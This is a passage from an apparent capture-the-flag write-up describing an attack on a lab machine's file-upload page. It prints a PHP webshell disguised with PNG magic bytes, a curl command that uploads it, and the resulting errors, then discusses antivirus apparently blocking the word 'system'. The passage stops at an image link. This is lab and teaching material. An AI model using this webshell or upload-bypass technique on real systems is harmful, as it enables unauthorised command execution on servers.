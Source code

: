 
### Fighting with Defender

I did get stuck for a while when I tried to make my webshell using
`system()` instead of `echo shell_exec()`. For some reason this fails on
upload:



    root@kali# echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php system($_REQUEST["cmd"]); ?>' > shell_system.php.png
    root@kali# curl -X POST 'http://10.10.10.198:8080/upload.php?id=0xdf' -F 'pupload=upload' -F 'file=@shell_system.php.png' -x http://127.0.0.1:8080
    <br />
    <b>Warning</b>:  move_uploaded_file(C:\xampp\tmp\php60D2.tmp): failed to open stream: Invalid argument in <b>C:\xampp\htdocs\gym\upload.php</b> on line <b>35</b><br />
    <br />
    <b>Warning</b>:  move_uploaded_file(): Unable to move 'C:\xampp\tmp\php60D2.tmp' to 'upload/0xdf.php' in <b>C:\xampp\htdocs\gym\upload.php</b> on line <b>35</b><br />



The error is talking about a failure to move the temporary file to
`upload/0xdf.php`. At first I thought it might be something with the
name I was using already existing, but I'd shown myself in experimenting
that I am able to overwrite a previous webshell. I tried on a fresh
reset, and with a different `id`, but still the same error. My best
guess was that the AV on the box is triggering on something in the file,
and it turns out to be the word `system`. For example here it is
failing:

[![](/img/image-20200720213652201.png)*Click
for full size
